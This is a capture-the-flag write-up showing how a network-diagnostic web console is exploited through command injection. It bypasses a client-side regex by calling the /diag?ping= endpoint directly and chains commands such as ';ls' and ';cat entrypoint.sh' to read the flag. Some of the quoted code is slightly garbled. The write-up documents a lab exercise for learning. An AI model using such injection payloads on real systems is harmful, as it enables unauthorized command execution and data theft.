






# O2.3: Naughty Network
**Objective:** Exploit the network diagnostic console to retrieve sensitive data.

**Difficulty:** Medium (300 points)

**Category:** Web Exploitation, Command Injection

## Materials and References
- **Provided:**
    - Link: Personalyz.io network administration interface
    - Credentials:
        - Username: `WICYS2025`
        - Password: `2Vg6#2jb28Yiu6!s`
- **Tools Used:**
    - Web Browser

## Flag Format
FLAG{...}

## Write-Up

The provided credentials were used to log into the Personalyz.io's network administration interface, which opened to the `Diagnistics` page. While there is a navigation panel, no other page was working. 

The Diagnistics page shows a hostname/IP input field and displays the following constraints:
> Run a simple connectivity check. Hostname or IP only; special characters are blocked in the browser. \
> Only letters, digits, dots and dashes are allowed.

<p align="center">
  
</p>

A connectivity check for `127.0.0.1` returned normal ping output in the output area.

<p align="center">
  
</p>

To test for command injection in the input field, several formats were attempted to chain the command `ls`, including:
- `127.0.0.1 ls`
- `127.0.0.1-ls`
- `127.0.0.1.ls`
- `127.0.0.1(ls)`

Each attempt returned:
> Error: Contains special characters

Inspection of the page source revealed client-side validation preventing command injection using regex:
```JavaScript
const host = document.getElementById('host').value.trim();
const out = document.getElementById('output');
if (!host) {
    out.textContent = 'Error: Host required.';
    return false;
}
if (!/^[A-Za-z0-9.\-1+$/.test(host)) {
    out.textContent = 'Error: Contains special characters.';
    return false;
}
out.textContent = 'Running...';

fetch('/diag?ping=' + encodeURIComponent(host))
«then (r=> r.text())
    .then(text = { out.textContent = text || '(no output)'; })
    .catch(e => { out.textContent = 'Error: ' + e; });

return false;
```
<p align="center">
  
</p>

Focus shifted to bypass the client-side filter. Validation is performed on form submission, but the URL contains a ping parameter that can be accessed directly:
```
https://target-netconsole.chals.io/diag?ping=127.0.0.1
```

Tested for command injection via the URL with `../`. The path traversal command did not execute, but the ping command worked, indicating that special characters could be used.
```
https://target-netconsole.chals.io/diag?ping=../
```
<p align="center">
  
</p>

Used `;` to run additional commands after ping. The additonal command will still run even if ping request is empty.

Listed the directory with `;ls`:
```
https://target-netconsole.chals.io/diag?ping=127.0.0.1;ls
https://target-netconsole.chals.io/diag?ping=;ls
```

<p align="center">
  
  
</p>

From the files listed, `entrypoint.sh` stood out. 

The `cat` command was used to read the file. The URl will automatically encode spaces and run the command successfully.
```
https://target-netconsole.chals.io/diag?ping=;cat entrypoint.sh
https://target-netconsole.chals.io/diag?ping=;cat%20entrypoint.sh
```

```sh
#!/usr/bin/env bash
set -euo pipefail

export TMPDIR=/dev/shm
export GUNICORN_TMPDIR=/dev/shm

# Compute base64 once for the decoy process so it appears in the process list
B64=$(printf "FLAG{YouFoundTheFlag!}\n" | base64 -w0)
env -i /bin/bash /app/keepalive.sh "$B64" &

# Launch the app
exec gunicorn -b 0.0.0.0:8080 app:app
```

The flag is within the code.

**Flag**: FLAG{YouFoundTheFlag!}

<p align="center">
  
</p>